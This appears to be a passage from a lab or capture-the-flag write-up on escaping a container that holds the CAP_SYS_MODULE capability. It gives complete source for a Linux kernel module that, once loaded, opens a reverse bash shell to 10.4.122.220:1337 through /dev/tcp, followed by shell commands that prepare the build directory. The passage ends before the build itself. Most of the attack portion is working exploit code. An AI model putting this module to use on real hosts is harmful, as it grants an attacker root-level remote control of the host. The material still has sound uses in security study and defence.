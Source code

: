 - Containers normally **cannot** load kernel modules
- With `CAP_SYS_MODULE`, the container can insert its own `.ko` module
- This means code runs in the host kernel context → effectively giving host root

---

### Kernel module source (rev.c)

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>

MODULE_LICENSE("GPL");

static int launch_shell(void) {
    char *argv[] = {
        "/bin/bash",
        "-c",
        "bash -i >& /dev/tcp/10.4.122.220/1337 0>&1",
        NULL
    };

    static char *envp[] = {
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin",
        NULL
    };

    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}

static int __init mod_init(void) {
    return launch_shell();
}

static void __exit mod_exit(void) { }

module_init(mod_init);
module_exit(mod_exit);
```

---

### Build environment

Prepare a working directory:

```bash
root@d221f7bc7bf8:/tmp# mkdir -p /tmp/exp
root@d221f7bc7bf8:/tmp# mv /tmp/rev.c /tmp/makefile /tmp/exp
root@d221f7bc7bf8:/tmp# cd /tmp/exp
root@d221f7bc7bf8:/tmp/exp# mv makefile Makefile
```
